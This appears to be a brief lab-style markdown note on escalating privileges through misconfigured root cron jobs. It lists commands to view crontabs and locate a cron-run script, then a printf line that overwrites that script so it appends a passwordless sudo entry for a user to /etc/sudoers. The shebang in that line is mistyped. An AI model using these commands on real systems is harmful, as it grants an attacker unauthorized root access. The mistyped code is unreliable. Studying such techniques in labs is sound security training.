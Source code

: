 # Exploiting Misconfigured Cron Jobs

Crontab file will show you the cron jobs  
They can be run as any user on the system  
**For Privilege escalation, we want to target Jobs created by the root user**  

Viewing Cronjobs  
```crontab -l```

Look for all occurences of path to file using grep   
```grep -rnw /usr -e "/home/student/message"```  

Navigate to the file that is running as a cron job  
Run this command to add user to the sudoers file  
```printf '#1/bin/bash\necho " "student ALL=NOPASSWD":ALL" >> /etc/sudoers' > /usr/local/share/copy.sh```

